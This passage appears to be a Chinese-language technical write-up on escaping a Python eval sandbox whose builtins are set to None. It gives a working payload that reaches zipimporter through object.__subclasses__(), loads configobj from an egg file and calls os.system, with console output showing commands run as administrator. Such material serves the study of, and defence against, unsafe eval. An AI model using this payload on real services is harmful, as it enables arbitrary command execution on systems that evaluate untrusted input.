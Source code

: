 ```
>>> id(__builtins__)
3549136
>>> id(__builtin__)
3549136

```

根据[乌云drops](http://drops.wooyun.org/web/7490)提到的方法，使用如下代码即可：

```
[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == "zipimporter"][0]("/home/liaoxinxi/eval_test/configobj-4.4.0-py2.5.egg").load_module("configobj").os.system("uname")

```

上面的代码首先利用`__class__`和`__subclasses__`动态加载了`object`对象，这是因为eval中无法直接使用object。然后使用object的子类的zipimporter对egg压缩文件中的configobj模块进行导入，并调用其内置模块中的os模块从而实现命令执行，当然，前提是要有configobj的egg文件。 configobj模块很有意思，居然内置了os模块：

```
>>> "os" in configobj.__dict__
True
>>> import urllib
>>> "os" in urllib.__dict__
True
>>> import urllib2
>>> "os" in urllib2.__dict__
True
>>> configobj.os.system("whoami")
win-20140812chj\administrator
0

```

和configobj类似的模块如`urllib`，`urllib2`，`setuptools`等都有os的内置，理论上使用哪个都行。 如果无法下载egg压缩文件，可以下载带有setup.py的文件夹，加入：

```
from setuptools import setup, find_packages  

```

然后执行:

```
python setup.py bdist_egg

```

就可以在dist文件夹中找到对应的egg文件。 绕过demo如下：

```
>>> env = {}
>>> env["locals"]   = None
>>> env["globals"]  = None
>>> env["__name__"] = None
>>> env["__file__"] = None
>>> env["__builtins__"] = None
>>> users_str = "[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'zipimporter'][0]('E:/internships/configobj-5.0.5-py2.7.egg').load_module('configobj').os.system('whoami')"
>>> eval(users_str, env)
win-20140812chj\administrator
0
>>> eval(users_str, {}, {})
win-20140812chj\administrator
0

```

